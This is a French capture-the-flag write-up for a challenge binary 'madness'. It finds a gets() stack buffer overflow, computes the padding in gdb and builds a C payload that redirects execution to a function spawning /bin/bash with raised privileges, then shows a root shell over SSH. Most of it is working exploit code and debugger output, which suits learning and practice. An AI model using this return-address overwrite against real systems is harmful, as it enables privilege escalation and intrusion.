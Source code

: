 ﻿# Challenge Pwn3 Cybernight write up

## Description du challenge
Si vous avez lu les chall précédant, vous avez l'habitude maintenant, un identifiant pour se connecter via SSH nous est fourni:
```bash
ssh ctf@10.242.0.1 -p 2227
passwd: ***
```
Et on retrouve les fichiers suivant:
- *madness*: ELF Executable 32bit, not stripped
- *madness.c*: Code source de *madness* (il s'avère que les admin ont oublié d'enlever le droit de lecture pour ce chall) 
- *flag.txt*: Fichier contenant le flag sans droit de lecture (obviously)

## Analyse du code source

La première reaction quand on ouvre le code source ![Alt](https://openseauserdata.com/files/08eda6a483276d0eff363de8da6ea23a.jpg =50x50)
```c
int BIGFvBgYnMlYOKia(int ANzzGdmd) {
    int X = 119;
    int k = 2273;
    int b = 5280;
    int i = 7452;
    int v = 8805;
    int W = 4789;
    return X+k-b-i-v+W+ANzzGdmd;
}


int AdMbWtzSbOkVliGR(int pHlzcMIH) {
    int g = 5035;
    int M = 9549;
    int O = 8773;
    int R = 3117;
    int f = 6268;
    int z = 3118;
    return BIGFvBgYnMlYOKia(g-M+O-R+f-z-pHlzcMIH);
}
// [...]
```
On a affaire à un code obfusqué, mais comme on a le source code (dommage), une simple recherche dans le texte comme "system" ou "getuid" nous ramène directement à la fonction qui nous donnera le flag

```bash
faco@archad $ cat madness.c | grep -C 3 system
void SpYhDmDKENhhkOlH() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

int QSLsmaeRXqktRDtj(int xfYiFvSU) {
```
On devine donc rapidement que le chall sera de détourner l’exécution du programme vers cette fonction.

On a notre objectif, maintenant il nous faut un vecteur.
Cherchons une entrée/interaction utilisateur.
Par chance, à la fin du fichier se trouve notre fonction ``main`` et on peut voir qu'elle appelle la function ``bMTsWWvxFNorimkF``:
```c
void bMTsWWvxFNorimkF() {
    char number[11] = {0};

    printf("CHOOSE A NUMBER : ");
    gets(number);
    printf("%d", CjBOSteMrExFSNCq(atoi(number)));
}

int main() {
    bMTsWWvxFNorimkF();
    return 0;
}
```
Le vecteur est vite trouvé, on a un buffer de taille 11 qui est rempli par la fonction ``gets`` qui ne vérifie pas la taille de l'entrée utilisateur par rapport à la taille du buffer dans lequel elle écrit.

## Exploitation

Comme il a été vu précédement, notre objectif est de faire sauter l'execution du programme vers la fonction ```SpYhDmDKENhhkOlH```.
La méthode est la même que pour le chall 2:
- Récuperer l'adresse de la fonction cible
- Déterminer le padding, ici on veut que notre payload modifie l'adresse de retour de fonction (toujours **[EBP+4]** dans la stack)
- Assembler padding et payload, en l'occurence l'adresse de la fonction cible

### Récupérer l'adresse de la fonction cible

Pour récupérer l'adresse de votre fonction, j'utilise ``objdump -t`` pipé dans ``grep`` pour chercher au seins de la liste des symboles de l’exécutable
 ```bash
 faco@archad $ objdump -t ./madness | grep SpYhDmDKENhhkOlH
 0804978b g     F .text  00000047              SpYhDmDKENhhkOlH
 ```
 Et voilà on a notre adresse : *0x0804978b*
 
### Déterminer le padding

J'ouvre le programme *madness* dans gdb et je commence par désassembler la fonction ``bMTsWWvxFNorimkF`` qui utilise ``gets``.
```
(gdb) disassemble bMTsWWvxFNorimkF
   0x08049fe0 <+0>:	endbr32 
   0x08049fe4 <+4>:	push   %ebp
   0x08049fe5 <+5>:	mov    %esp,%ebp
   0x08049fe7 <+7>:	push   %ebx
   0x08049fe8 <+8>:	sub    $0x14,%esp
   0x08049feb <+11>:	call   0x8049170 <__x86.get_pc_thunk.bx>
   0x08049ff0 <+16>:	add    $0x3010,%ebx
   0x08049ff6 <+22>:	movl   $0x0,-0x13(%ebp)
   0x08049ffd <+29>:	movl   $0x0,-0xf(%ebp)
   0x0804a004 <+36>:	movw   $0x0,-0xb(%ebp)
   0x0804a00a <+42>:	movb   $0x0,-0x9(%ebp)
   0x0804a00e <+46>:	sub    $0xc,%esp
   0x0804a011 <+49>:	lea    -0x1fee(%ebx),%eax
   0x0804a017 <+55>:	push   %eax
   0x0804a018 <+56>:	call   0x80490b0 <printf@plt>
   0x0804a01d <+61>:	add    $0x10,%esp
   0x0804a020 <+64>:	sub    $0xc,%esp
   0x0804a023 <+67>:	lea    -0x13(%ebp),%eax
   0x0804a026 <+70>:	push   %eax
   0x0804a027 <+71>:	call   0x80490c0 <gets@plt>
   [...]
   ```
   On place un breakpoint sur ``*bMTsWWvxFNorimkF+71`` (*0x0804a027*). 
   Le breakpoint nous permettera d'avoir la stack juste avant l'overflow, ainsi on pourra déterminer la taille de notre padding afin d'atteindre l'offset **[EBP+4]**.

Une fois le programme lancé on hit directement le breakpoint avant l'execution de ``gets``.
J'affiche 20 WORD en hexadécimale depuis $ESP (le haut de la stack)
```
Breakpoint 1, 0x0804a027 in bMTsWWvxFNorimkF ()
(gdb) x/20wx $esp
0xffffd080:	0xffffd095	0x00000000	0x00000000	0x08049ff0
0xffffd090:	0xffffffff	0x000000f4	0x00000000	0x00000000
0xffffd0a0:	0x00000000	0xf7e1fe34	0xffffd0b8	0x0804a07c
0xffffd0b0:	0x00000000	0x00000000	0x00000000	0xf7c1f119
0xffffd0c0:	0x00000001	0xffffd174	0xffffd17c	0xffffd0e0
```
Une technique pour gagner du temps et avoir facilement le bon offset: (*cf. cyclic_gen() de pwntools*)
```bash
faco@archad $ python -c "print('A' * 11 + 'BBBBCCCCDDDDEEEEFFFF') > cycle
faco@archad $ gdb ./madness
(gdb) r < cycle
[...]
Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```
0x45 correspond à la lettre 'E', donc sur notre chaîne de character, les 4 'E' ont bien recouvert [EBP+4] et EIP a tenté d’exécuter l'instruction à l'adresse 0x45454545 après la fin de la fonction.
Il ne reste plus qu'à remplacer 'EEEE' par notre payload.

PADDING = 11 + 4 * 3 = 23

### Écriture de l'exploit

```c
#define PADDING 23
#define CHAR 0x41
#define PAYLOAD "\x8b\x97\x04\x08"
#define PAYLOAD_LEN 4
```
```c
char* buf = (char*)malloc(PADDING+PAYLOAD_LEN);
memset(buf, CHAR, PADDING);
memcpy(buf+PADDING, PAYLOAD, PAYLOAD_LEN);
```
On écrit buf dans un fichier avec fwrite
```c
fwrite(buf, 1, PADDING+PAYLOAD_LEN, f);
```
Il ne reste plus qu'à compiler et générer notre exploit.
```bash
faco@archad $ gcc exploit.c -o genexploit; ./genexploit
Exploit written at evil
```

### Exploitation
**IMPORTANT**: pour pouvoir profiter du */bin/bash*, il faut également """rediriger un autre stdin""" vers le child créé par ``sytem('/bin/bash ...')``. 
Pour pouvoir envoyer des commandes au shell:
```bash
faco@archad $ (cat evil; cat) | ./madness

whoami
faco
```
Il ne reste plus qu'à tester via ssh

```bash
faco@archad $ (cat evil; evil) | ssh ctf@10.242.0.1 -p 2227 'bash -c ~/madness '
CHOOSE A NUMBER: 

whoami
root
cat ./flag.txt
{FLAG}
``` 




 

